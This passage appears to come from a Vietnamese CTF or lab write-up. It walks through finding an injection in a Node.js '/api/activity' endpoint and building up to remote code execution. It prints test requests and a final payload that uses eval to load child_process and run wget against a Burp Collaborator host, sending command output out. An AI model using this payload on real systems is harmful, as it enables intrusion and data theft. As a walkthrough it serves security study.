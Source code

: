 ![](../../attachments/Pasted%20image%2020220727174738.png)

→  Kết quả trả về như nhau →  Bị template injection.

Tiếp theo mình chuẩn bị một vài payload khác để xem thử mình có sử dụng được hàm eval không.

```http
POST /api/activity HTTP/1.1
<--SNIP-->

{"activity":"fe' + 'ed' && 1==1 && 'feed","health":"0","weight":"0","happiness":"0"}
```

```http
POST /api/activity HTTP/1.1
<--SNIP-->

{"activity":"fe' + 'ed' && eval(1==1) && 'feed","health":"0","weight":"0","happiness":"0"}
```

Kết quả trả về đều như nhau:

```http
HTTP/1.1 200 OK
<--SNIP-->

{"mood":"cry","health":5,"weight":10,"happiness":5}
```

Bây giờ tìm thông qua eval để thực hiện RCE, mình đã thử google và có được 1 kết quả khá thú vị [here](https://stackoverflow.com/questions/22572182/node-referenceerror-require-is-not-defined-when-executing-a-function-object)

Và đây là payload của mình:

```http
POST /api/activity HTTP/1.1
<--SNIP-->

{"activity":"fe' + 'ed' && eval('var require = global.require || global.process.mainModule.constructor._load; require(\"child_process\").exec(\"wget http://<burp-collabtor-client>?id=`<command>`\")') && 'feed","health":"0","weight":"0","happiness":"0"}
```
